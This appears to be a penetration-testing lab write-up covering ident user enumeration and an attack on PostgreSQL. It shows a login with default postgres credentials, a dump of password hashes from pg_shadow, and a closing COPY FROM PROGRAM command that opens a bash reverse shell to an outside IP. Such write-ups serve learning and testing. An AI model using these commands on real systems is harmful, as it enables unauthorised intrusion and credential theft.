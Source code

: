 - ident-user-enum
    
    ```bash
    ident-user-enum $IP 22 113 5432 8080 10000
    ```
    
    ![image.png](image%202.png)
    

### Port 5432

PostgreSQL DB 9.6.0 or later

[Hacktricks PostgreSQL](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=5432#basic-information)

- **Public Exploits**
    
    ```bash
    searchsploit postgresql 9.6
    ```
    
    [PostgreSQL 9.6.1 RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51247&ved=2ahUKEwjX0djgkOuMAxXmhP0HHQseBJgQFnoECCIQAQ&usg=AOvVaw0qdG3XfTA3BHs08sbiT-iD)
    
    ![image.png](image%203.png)
    
    **Public exploit didn’t work.**
    
- **Authentication**
    
    ```bash
    psql -h $IP -U postgres
    ```
    
    I used default credentials `postgres:postgres` and was able to login:
    
    ![image.png](image%204.png)
    
- **Dumping hashes**
    
    ```bash
    SELECT usename, passwd FROM pg_shadow;
    ```
    
    ![image.png](image%205.png)
    
    ![image.png](image%206.png)
    
    it just returns authentication information of users to PostgreSQL service.
    
- **Command Execution**
    
    ```bash
    COPY kashz FROM PROGRAM "bash -c 'bash -i >& /dev/tcp/192.168.45.191/80 0>&1'"; SELECT * FROM kashz;
    ```
    